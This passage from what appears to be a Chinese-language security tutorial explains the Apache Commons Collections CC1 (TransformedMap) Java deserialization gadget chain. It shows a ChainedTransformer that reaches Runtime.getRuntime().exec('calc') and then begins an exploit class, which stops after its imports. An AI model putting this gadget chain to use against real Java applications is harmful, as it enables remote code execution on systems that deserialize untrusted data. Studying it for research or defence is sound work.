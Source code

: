 [![](assets/1701612311-2a10f094c9f969a9b7e693d9f46964b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235141-fe79957a-20cb-1.png)

我们步入看一下最后 value 对应的什么值：

[![](assets/1701612311-3f034600c5921bc9802225ce301a9bf1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235148-02905f22-20cc-1.png)

所以这里需要修改这个值：

这里我们调用这个地方我们可以发现，不管最后 transform 是什么值，都会返回对应的 constant 值，所以我们就可以把 Runtime 设为这个固定值。

```plain
public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return iConstant;
    }
```

```plain
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

这样我们最后的 value 就固定为 Runtime.class 了

### EXP(CC1Transformedmap)：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
```
